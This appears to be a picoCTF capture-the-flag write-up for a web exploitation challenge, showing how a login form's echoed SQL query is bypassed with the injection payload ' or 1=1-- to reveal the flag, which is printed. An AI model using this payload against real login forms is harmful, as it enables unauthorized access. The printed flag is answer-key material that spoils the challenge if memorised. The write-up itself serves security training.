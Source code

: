 # Overview 
Category: [Web Exploitation]()

AUTHOR: MUBARAK MIKAIL

# Description
Can you find the flag on this website.

# Solution
- I try test: username=test&password=test . Then get the results
```html
<pre>
    username: test
    password: test
    SQL query: SELECT id FROM users WHERE password = 'test' AND username = 'test'
</pre>
```
-  There are many ways to perform SQL injection, I choose the simplest way: 
```bash
' or 1=1-- 
```
- I corrected: username=test&password=test'+or+1%3D1--+
and receive flags :
> Your flag is: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}
